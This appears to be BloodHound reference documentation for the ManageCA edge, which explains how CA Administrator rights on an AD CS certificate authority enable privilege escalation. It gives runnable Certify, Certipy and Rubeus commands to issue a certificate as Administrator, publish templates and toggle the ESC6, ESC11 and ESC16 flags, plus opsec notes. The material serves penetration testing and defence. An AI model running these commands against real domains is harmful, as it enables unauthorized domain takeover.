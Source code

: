 ```yaml
---
title: ManageCA
description: The principal has the "Manage CA", also known as "CA Administrator", permission on the Enterprise CA.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This permission allows the principal to configure the CA to allow subject alternate names, publish certificate templates, grant "Manage Certificates", grant enrollment rights, change certain CA flags, and more.

CA Administrators can perform the following actions that may enable an ADCS escalation:

1. Grant CA Officer (ManageCertificates) and approve a denied certificate request
2. Publish a certificate template (e.g. one that enables an ESC1 condition)
3. Grant Enroll on the enterprise CA
4. Enable the ESC6 CA flag `EDITF_ATTRIBUTESUBJECTALTNAME2`
5. Enable the ESC11 CA flag `IF_ENFORCEENCRYPTICERTREQUEST`
6. Disable the security extension on the enterprise CA (ESC16)
7. Abuse a CDP to coerce and relay the CA server
8. Abuse a CDP to obtain RCE on the CA server via a webshell

## Abuse Info

This relationship alone is not automatically a privilege escalation; however, it frequently enables one of several ADCS escalation paths when combined with template / CA configuration weaknesses.


### 1. Grant CA Officer and Approve a Denied Request

Role separation (when enabled) prevents a single principal from holding both ManageCA and ManageCertificates, but this configuration is rare.

**Windows**

Grant the CA Officer (ManageCertificates) role with Certify (v2.0):
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --officer S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-12345
```
Request an ESC1 (or other high-value) certificate you don't have enrollment rights for:
```cmd
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomUser --upn Administrator --sid S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-500
```
Approve the denied certificate request by ID:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issue-id 1337
```
Download the certificate (captures private key in Base64 PFX):
```cmd
Certify.exe request-download --ca ca01.corp.local\CORP-CA01-CA --id 1337 --private-key <Base64PrivateKey>
```
Authenticate using the certificate (example with Rubeus):
```cmd
Rubeus.exe asktgt /user:Administrator /certificate:<Base64PFX> /ptt
```

**Linux**
Grant CA Officer (ManageCertificates) role:
```bash
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password 'Passw0rd'
```
Issue (approve) a previously denied request:
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password 'Passw0rd'
```
Retrieve the certificate:
```bash
certipy req -username john@corp.local -password 'Passw0rd' -ca corp-DC-CA -target ca.corp.local -retrieve 785
```

### 2. Publish a Certificate Template

**Windows**

Publish/unpublish a template (e.g. enabling ESC1):
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --template MyTemplate
```

**Linux**

Publish a template:
```bash
certipy ca -ca 'corp-DC-CA' -enable-template TemplateCN -username john@corp.local -password 'Passw0rd'
```

See the ADCS ESC1 abuse documentation for subsequent exploitation steps: [ADCSESC1](/resources/edges/adcs-esc1)

### 3. Grant Enroll on Enterprise CA

**Windows**

Grant or revoke CA enrollment rights (required for certificate issuance):

```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --enroll S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-12345
```

### 4. Enable ESC6 Flag `EDITF_ATTRIBUTESUBJECTALTNAME2`
**Windows**

Toggle the flag:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc6
```
Restart of the CA service (requires local admin) is needed for the change to apply.
See the ADCS ESC6 abuse documentation for subsequent exploitation steps: [ADCSESC6a](/resources/edges/adcs-esc6a)

### 5. Enable ESC11 Flag `IF_ENFORCEENCRYPTICERTREQUEST`
**Windows**

Toggle the flag:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc11-req
```
Restart of the CA service required.

### 6. Disable Security Extension (ESC16)
**Windows**

Set CA settings for ESC16:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --esc16
```
Restart of the CA service required.

### 7 & 8. Abuse CDP for Coercion / RCE

Techniques to coerce & relay or achieve RCE via CDP manipulation are described here: [AD CS: from ManageCA to RCE](https://www.tarlogic.com/blog/ad-cs-manageca-rce/)


## Opsec Considerations

Abusing these capabilities commonly results in certificate issuance; issued certificates (and sometimes pending requests) leave artifacts on the CA host. Enabling/disabling flags or publishing templates may generate observable administrative events and typically requires a CA service restart for certain changes (ESC6, ESC11, ESC16) to take effect.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [Certify wiki - Escalation Techniques - ManageCA](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#manageca)
* [ESC7: Dangerous Permissions on CA (Certipy wiki)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca)
* [AD CS: from ManageCA to RCE](https://www.tarlogic.com/blog/ad-cs-manageca-rce/)

